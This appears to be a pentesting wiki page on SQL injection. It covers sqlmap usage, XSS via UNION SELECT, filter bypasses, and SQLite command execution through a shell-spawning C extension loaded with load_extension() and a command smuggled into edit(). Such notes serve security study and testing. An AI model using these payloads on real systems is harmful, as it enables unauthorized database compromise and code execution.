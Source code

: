 ```yaml
---
description: >-
  An infamous and simple attack where code is injected where data should be,
  rewriting the SQL Query
---
```


# SQL Injection

## SQLMap

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap" %}

You can run a raw request through `sqlmap` with cookies and POST to find any injection:

```shell-session
$ sqlmap -r r.txt --batch
```

* `--level=5` tests more inputs, like HTTP headers
* `--risk=3` tests more injection payloads

### XSS/SQLi through SQL Injection

{% embed url="https://jorianwoltjer.com/blog/post/hacking/intigriti-xss-challenge/intigriti-july-xss-challenge-0722" %}
Writeup showing XSS through a Second-Order injection (3-in-one)
{% endembed %}

Use `UNION SELECT` statements to alter the returned content on the site, with an XSS payload for example.

{% hint style="info" %}
Also try 'Second-Order' injection, by doing another injection inside of your `UNION` content if not all values can be altered (see the writeup above)
{% endhint %}

### Filter Bypass

Some scenarios where you can bypass character limits using functions or special syntax. \
**`+`** means supported in more than just the mentioned DB backend.

* Quotes (`'` & `"`) like `"j0r1an"`:&#x20;
  * Use `0x6a307231616e` in **MySQL**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Hex\('None',0\)Find\_/\_Replace\(%7B'option':'Regex','string':'.\*'%7D,'0x$%26',false,false,false,false\)\&input=ajByMWFu)
  * Use [`char(106,48,114,49,97,110)`](https://www.sqlite.org/lang\_corefunc.html#char) in **SQLite+**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Decimal\('Comma',false\)Find\_/\_Replace\(%7B'option':'Regex','string':'.\*'%7D,'char\($%26\)',false,false,true,true\)\&input=ajByMWFu)

## SQLite

Tricks specific to the SQLite database backend.

### RCE through CLI

While looking through the documentation, you might notice functions that seem to have the ability to run arbitrary code on the system. The catch is that these methods are only possible using the `sqlite3` CLI tool by default, only with some very specific configuration will they be available through a normal library that uses the safer C-API behind the scenes.&#x20;

#### [`load_extension()`](https://www.sqlite.org/lang\_corefunc.html#load\_extension)

SQLite uses the C-API for all the heavy work, and the CLI as well as libraries are just wrappers over this. The `load_extension()` function is special as it can only be called after calling the `enable_load_extension()` function from the C-API, which is not available in SQL syntax. Fortunately, the **CLI enables this automatically** which means that if we are able to inject code into such a query, we can load extensions.&#x20;

These extensions are simply compiled C code in the form of `.so` files, with an init function:

<pre class="language-c" data-title="extension.c"><code class="lang-c">#include &#x3C;sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include &#x3C;stdlib.h>
#include &#x3C;unistd.h>

int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
  SQLITE_EXTENSION_INIT2(pApi);

<strong>  execve("/bin/sh", NULL, NULL);  // Spawn an interactive shell
</strong>
  return SQLITE_OK;
}
</code></pre>

```shell-session
$ gcc -s -g -fPIC -shared extension.c -o extension.so
```

Then from inside a CLI query, we can call the function with a path to the compiled extension:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select load_extension('./extension');
</strong>$ id
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

#### [`edit()`](https://www.sqlite.org/cli.html#the\_edit\_sql\_function)

The CLI also includes an extra special function used for editing data interactively, which allows its 2nd argument to decide what command to run! It is very straightforward to exploit:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select edit(1,'id;');
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
sh: 1: temp9385525e2ea5301f: not found
Error: EDITOR returned non-zero
</code></pre>
